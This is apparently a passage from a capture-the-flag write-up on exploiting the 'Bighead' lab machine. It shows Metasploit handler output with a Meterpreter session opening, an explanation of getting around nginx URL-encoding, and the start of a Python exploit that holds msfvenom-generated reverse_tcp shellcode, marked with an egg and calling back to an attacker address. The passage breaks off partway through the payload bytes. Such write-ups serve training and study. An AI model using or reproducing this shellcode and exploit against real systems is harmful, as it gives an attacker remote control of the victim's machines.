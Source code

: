 When it hits the egg, it executes the meterpreter stager and we get a connection:

```
msf5 exploit(multi/handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 172.23.10.186
[*] Meterpreter session 1 opened (172.23.10.39:80 -> 172.23.10.186:49804) at 2019-05-03 19:37:47 -0400

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...
```

Nice, the exploit works locally.

But when I tried running it against Bighead it didn't work so I replicated the nginx setup locally in Win7 and found that the second stage shellcode was being URL encoded by nginx. To work around this I had to fix the POST request and remove the `Content-Type` header so it would not URL encode the payload then switch the content body to the raw shellcode (non URL-encoded).

The final exploit looks like this:

```python
#!/usr/bin/python

from pwn import *
import requests

'''
# msfvenom -p windows/meterpreter/reverse_tcp -b \x00\x0a\x0d -f python LHOST=10.10.14.23 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of python file: 1772 bytes
'''

egg = "\x77\x30\x30\x74" # w00t
payload = egg + egg
payload += "\xb8\xc3\x06\x6e\xa1\xd9\xcd\xd9\x74\x24\xf4\x5f\x2b"
payload += "\xc9\xb1\x56\x83\xef\xfc\x31\x47\x0f\x03\x47\xcc\xe4"
payload += "\x9b\x5d\x3a\x6a\x63\x9e\xba\x0b\xed\x7b\x8b\x0b\x89"
payload += "\x08\xbb\xbb\xd9\x5d\x37\x37\x8f\x75\xcc\x35\x18\x79"
payload += "\x65\xf3\x7e\xb4\x76\xa8\x43\xd7\xf4\xb3\x97\x37\xc5"
payload += "\x7b\xea\x36\x02\x61\x07\x6a\xdb\xed\xba\x9b\x68\xbb"
payload += "\x06\x17\x22\x2d\x0f\xc4\xf2\x4c\x3e\x5b\x89\x16\xe0"
payload += "\x5d\x5e\x23\xa9\x45\x83\x0e\x63\xfd\x77\xe4\x72\xd7"
payload += "\x46\x05\xd8\x16\x67\xf4\x20\x5e\x4f\xe7\x56\x96\xac"
payload += "\x9a\x60\x6d\xcf\x40\xe4\x76\x77\x02\x5e\x53\x86\xc7"
payload += "\x39\x10\x84\xac\x4e\x7e\x88\x33\x82\xf4\xb4\xb8\x25"
payload += "\xdb\x3d\xfa\x01\xff\x66\x58\x2b\xa6\xc2\x0f\x54\xb8"
payload += "\xad\xf0\xf0\xb2\x43\xe4\x88\x98\x0b\xc9\xa0\x22\xcb"
payload += "\x45\xb2\x51\xf9\xca\x68\xfe\xb1\x83\xb6\xf9\xc0\x84"
payload += "\x48\xd5\x6a\xc4\xb6\xd6\x8a\xcc\x7c\x82\xda\x66\x54"
payload += "\xab\xb1\x76\x59\x7e\x2f\x7d\xcd\x8b\xa5\x8f\x1a\xe4"
payload += "\xbb\x8f\x24\xa4\x32\x69\x74\x14\x14\x26\x35\xc4\xd4"
payload += "\x96\xdd\x0e\xdb\xc9\xfe\x30\x36\x62\x94\xde\xee\xda"
payload += "\x01\x46\xab\x91\xb0\x87\x66\xdc\xf3\x0c\x82\x20\xbd"
payload += "\xe4\xe7\x32\xaa\x92\x07\xcb\x2b\x37\x07\xa1\x2f\x91"
payload += "\x50\x5d\x32\xc4\x96\xc2\xcd\x23\xa5\x05\x31\xb2\x9f"
payload += "\x7e\x04\x20\x9f\xe8\x69\xa4\x1f\xe9\x3f\xae\x1f\x81"
payload += "\xe7\x8a\x4c\xb4\xe7\x06\xe1\x65\x72\xa9\x53\xd9\xd5"
payload += "\xc1\x59\x04\x11\x4e\xa2\x63\x21\x89\x5c\xf1\x0e\x32"
payload += "\x34\x09\x0f\xc2\xc4\x63\x8f\x92\xac\x78\xa0\x1d\x1c"
```